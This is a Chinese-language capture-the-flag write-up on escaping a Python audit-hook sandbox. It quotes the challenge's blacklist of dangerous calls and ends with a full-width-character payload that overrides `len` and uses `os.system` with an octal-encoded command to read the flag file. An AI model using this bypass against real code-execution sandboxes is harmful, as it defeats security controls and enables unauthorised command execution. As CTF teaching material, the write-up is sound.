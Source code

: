 `do`方法就是重点了。首先`hook_code`是一个自定义hook审计函数，配合`__import__('sys').addaudithook()`在执行过程中遇到某些事件(如import 某个 module)时触发审计函数进行检测，其中自定义的`my_audit_hook`用于检测事件名称长度是否大于4，以及是否包含黑名单中的模块。
然后下面的部分就是将我们传入的source_code与hook_code拼接，然后编译并检测语法树是否合法，然后写入run.py，然后执行。
```python
def do(source_code):
    hook_code = '''
def my_audit_hook(event_name, arg):
    blacklist = ["popen", "input", "eval", "exec", "compile", "memoryview"]
    if len(event_name) > 4:
        raise RuntimeError("Too Long!")
    for bad in blacklist:
        if bad in event_name:
            raise RuntimeError("No!")

__import__('sys').addaudithook(my_audit_hook)

'''
    print(source_code)
    code = hook_code + source_code
    tree = compile(source_code, "run.py", 'exec', flags=ast.PyCF_ONLY_AST)
    try:
        if verify_secure(tree):  
            with open("run.py", 'w') as f:
                f.write(code)  
            result = subprocess.run(['python', 'run.py'], stdout=subprocess.PIPE, timeout=5).stdout.decode("utf-8")
            os.remove('run.py')
            return result
        else:
            return "Execution aborted due to security concerns."
    except:
        os.remove('run.py')
        return "Timeout!"
```

> 因此考虑两个绕过：
>* 触发审计时对长度的限制。
>* 通过`unidecode.unidecode`绕过`blacklist_pattern`的半角字符过滤。这个可以用全角字符来绕过.

## 解答
首先对于长度限制，可以使用builtins修改len函数，使其为一个固定值即可绕过；对于半角字符，可以用全角字符来绕过(因为有一个unidecode)：
![alt text](jpgs/image1.png)
`__import__("builtins")。len=lambda x:0`

同时blacklist = ["popen", "input", "eval", "exec", "compile", "memoryview"]并没有把system给ban掉，因此可以考虑利用system命令来搞事情，最后payload如下：
`；＿＿import＿＿（”builtins”）。len＝lambda a：1；’‘；＿＿import＿＿（”os”）。system（”＄（printf ‘＼144＼144＼40＼151＼146＼75＼57＼146＼154＼141＼147’）； ”）；`
